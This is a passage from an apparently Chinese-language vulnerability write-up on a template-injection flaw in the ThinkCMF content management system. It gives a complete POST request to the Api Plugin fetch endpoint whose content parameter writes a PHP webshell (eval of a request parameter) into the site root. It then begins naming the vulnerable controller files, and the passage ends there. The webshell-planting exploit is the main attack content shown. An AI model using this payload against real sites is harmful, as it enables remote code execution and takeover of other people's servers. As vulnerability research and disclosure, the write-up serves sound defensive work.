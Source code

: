 ![image](img/e1273022735b4dbcd54a6cacb595931f.png)

#### 0x02.2 Api类模版注入1

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php> 
```

同上一样，会在跟目录生成 马子 test1.php

#### 0x02.3 漏洞原理

路径:ThinkCMFX\application\Comment\Controller\WidgetController.class.php
路径:ThinkCMFX\application\Api\Controller\PluginController.class.php

两处的漏洞原理都是一样的，所以我就选一处进行讲解了
路径:application\Comment\Controller\WidgetController.class.php
方法：public function fetch()
